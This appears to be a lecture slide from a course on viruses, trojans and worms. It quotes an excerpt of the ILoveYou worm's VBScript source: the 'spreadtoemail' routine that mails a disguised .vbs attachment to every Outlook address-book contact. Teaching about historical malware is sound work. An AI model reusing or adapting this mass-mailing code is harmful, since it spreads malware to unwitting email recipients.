

# ILoveYou Excerpt
rem  barok -loveletter(vbe) <i hate go to school>
rem by: spyder  /  ispyder@mail.com  /
	@GRAMMERSoft Group  / Manila,Philippines
...
sub spreadtoemail()
  for ctrlists=1 to mapi.AddressLists.Count
    set a=mapi.AddressLists(ctrlists)
    x=1
	 for ctrentries=1 to a.AddressEntries.Count
      malead=a.AddressEntries(x)
	   set male=out.CreateItem(0)
      male.Recipients.Add(malead)
      male.Subject = “ILOVEYOU”
      male.Body = “kindly check the attached LOVELETTER coming ..”
      male.Attachments.Add(dirsystem&“\LOVE-LETTER-FOR-YOU.TXT.vbs”)
      male.Send
 	   x=x+1
     next
   next
end sub

Mateti, Viruses, Trojans and Worms
30